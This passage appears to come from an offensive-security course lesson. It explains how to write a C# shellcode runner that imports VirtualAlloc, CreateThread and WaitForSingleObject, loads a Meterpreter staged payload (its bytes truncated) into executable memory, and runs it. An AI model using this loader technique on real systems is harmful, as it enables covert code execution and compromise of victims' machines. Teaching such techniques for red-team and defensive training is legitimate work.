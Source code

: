 Now that we've developed our basic framework, we can reuse the shellcode runner technique from both VBA and PowerShell and combine _VirtualAlloc_, _CreateThread_, and _WaitForSingleObject_ to execute shellcode in memory.

The first step is to use DllImport to import the three Win32 APIs and configure the appropriate argument data types. This is unchanged from our experience with _Add-Type_ and PowerShell. The imports are shown below:

```
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, 
    uint flProtect);

[DllImport("kernel32.dll")]
static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, 
    IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("kernel32.dll")]
static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
```

> Listing 30 - Importing Win32 APIs for shellcode runner

Next, we need to generate our shellcode. Keep in mind that on a 64-bit Windows operating system, Jscript will execute in a 64-bit context by default so we have to generate a 64-bit Meterpreter staged payload in _csharp_ format. While we're at it, we'll set up our multi/handler with the same payload.

Calling the APIs from C# is similar to our experience with PowerShell. However, we do not have to specify .NET namespaces like _[System.Runtime.InteropServices.Marshal]_ or the runtime compiled classes to invoke them.

In Listing 31, the calls to the three Win32 APIs along with the managed to unmanaged memory copy are present, and constitute the last part of the shellcode runner. This should appear very similar to what we did earlier.

Let's discuss a few details of this code, starting with the variable declarations. The first, _buf_, is our shellcode. Next is our _size_ variable that stores the size of our _buf_ variable. As mentioned earlier, we use _Marshal.Copy_, but don't have to specify the .NET namespace of _[System.Runtime.InteropServices.Marshal]_.

```
byte[] buf = new byte[626] {
  0xfc,0x48,0x83,0xe4,0xf0,0xe8...

int size = buf.Length;

IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

Marshal.Copy(buf, 0, addr, size);

IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

WaitForSingleObject(hThread, 0xFFFFFFFF);
```
